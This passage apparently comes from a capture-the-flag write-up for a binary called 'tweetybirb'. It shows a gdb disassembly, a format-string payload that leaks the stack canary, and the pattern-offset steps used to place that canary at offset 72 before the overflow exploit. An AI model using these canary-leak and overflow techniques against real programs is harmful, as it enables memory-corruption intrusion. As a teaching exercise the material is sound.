 ```python
   0x0000000000401219 <+39>:    lea    rax,[rbp-0x50]
   0x000000000040121d <+43>:    mov    rdi,rax
   0x0000000000401220 <+46>:    mov    eax,0x0
   0x0000000000401225 <+51>:    call   0x4010d0 <gets@plt>
   0x000000000040122a <+56>:    lea    rax,[rbp-0x50]
   0x000000000040122e <+60>:    mov    rdi,rax
   0x0000000000401231 <+63>:    mov    eax,0x0
   0x0000000000401236 <+68>:    call   0x4010c0 <printf@plt>
   0x000000000040123b <+73>:    lea    rdi,[rip+0xeb6]        # 0x4020f8
   0x0000000000401242 <+80>:    call   0x401090 <puts@plt>
   0x0000000000401247 <+85>:    lea    rax,[rbp-0x50]
   0x000000000040124b <+89>:    mov    rdi,rax
   0x000000000040124e <+92>:    mov    eax,0x0
   0x0000000000401253 <+97>:    call   0x4010d0 <gets@plt>
   0x0000000000401258 <+102>:   mov    eax,0x0
   0x000000000040125d <+107>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401261 <+111>:   xor    rdx,QWORD PTR fs:0x28
   0x000000000040126a <+120>:   je     0x401271 <main+127>
   0x000000000040126c <+122>:   call   0x4010a0 <__stack_chk_fail@plt>
   0x0000000000401271 <+127>:   leave  
   0x0000000000401272 <+128>:   ret    
End of assembler dump.
gdb-peda$
```

We know that the stack canary comparison happens at `main+120` after it is loaded into `rdx` and `main+107`. Setting a breakpoint at `main+111` means our pattern string will be in `rdx` at the time and we can learn what offset was loaded. This is how i did that:

```shell
gdb-peda$ br *main+111
Breakpoint 1 at 0x401261
gdb-peda$ pattern_create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
gdb-peda$ run
Starting program: tweetybirb 
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%15$016llx
ad7a934c1fcb5300
hmmm interesting. What about water fowl?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
Breakpoint 1, 0x0000000000401261 in main ()
gdb-peda$ i r $rdx
rdx            0x4134414165414149  0x4134414165414149
gdb-peda$ pattern_offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Cool! So now we know we need to write our canary at offset 72 in our string. Let's write our exploit so we can learn the return address offset next.
